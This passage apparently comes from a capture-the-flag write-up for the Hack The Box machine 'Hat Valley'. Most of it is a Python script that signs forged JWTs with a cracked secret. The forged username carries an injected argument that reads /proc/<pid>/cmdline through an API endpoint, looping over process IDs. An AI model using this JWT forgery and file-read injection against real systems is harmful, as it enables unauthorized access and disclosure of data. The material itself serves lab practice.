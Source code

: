 
### Automate SSRF+LFI using Python
```python
import sys
import requests
import jwt

def jwt_inject_command(target,payload,secret):

	#encoded_jwt = jwt.encode({secret})
	encoded_jwt = jwt.encode({'username': payload}, secret, algorithm='HS256')
	#print("Token:" + encoded_jwt)
	cookies={
		'token':encoded_jwt
	}
	r = requests.get(target,cookies=cookies)
	return r

def main():
	if len(sys.argv)!=1:
		print("Usage: SCRIPT URL PAYLOAD")
		sys.exit(1)
	#target = sys.argv[1]
	#payload = sys.argv[2]
	target = 'http://hat-valley.htb/api/all-leave'
	secret="123beany123"
	#target= 'http://localhost:3000/api/all-leave'
	
	for i in range(100,1000):
		# Arbitrary read
		payload = "/' /proc/{}/cmdline '/".format(i)
		out = jwt_inject_command(target,payload,secret)
		if "Failed" not in (out.text):
			print("Process found => {}:".format(str(i)) + out.text )

if __name__ == '__main__':
	main()
```


`.bashrc` in the `/home/bean`, gives us a clue what we should be searching for.
